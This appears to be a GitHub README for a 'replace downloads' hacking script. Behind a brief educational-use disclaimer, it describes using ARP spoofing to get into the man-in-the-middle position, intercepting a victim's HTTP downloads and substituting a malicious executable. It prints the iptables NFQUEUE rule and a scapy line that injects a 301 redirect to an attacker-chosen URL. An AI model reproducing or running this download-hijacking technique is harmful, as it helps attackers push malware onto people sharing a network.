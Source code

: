 # Replace downloads

**DISCLAIMER**

All content posted on the repository is for educational and research purposes only. Do not attempt to 
violate the law with anything contained here. Administrators of this server, the authors of this material, 
or anyone else affiliated in any way, are not going to accept responsibility for your actions. Neither 
the creator nor GitHub is not responsible for the comments posted on this repository.

This site contains materials that can be potentially damaging or dangerous. 
If you do not fully understand please LEAVE THIS WEBSITE. Also, be sure to check laws 
in your province/country before accessing repository.

Note: In order to be a man-in-the-middle, you need to execute the ARP spoof script

replace_downloads.py sniff data that flows from the victim to websites. Websites response to the hacker machine
and the hacker changes the download, ex. pastes malicious executable.

As you may guess, we need to insert an iptables rule, open the linux terminal and type:

```
iptables -I FORWARD -j NFQUEUE --queue-num 0
```

Moreover, it it important to change the response to HTTP/1.1 301 and add malicious url.

```
set_load(scapy_packet, bytes("HTTP/1.1 301 Moved Permanently\nLocation: " + url + "\n\n", "utf-8"))
```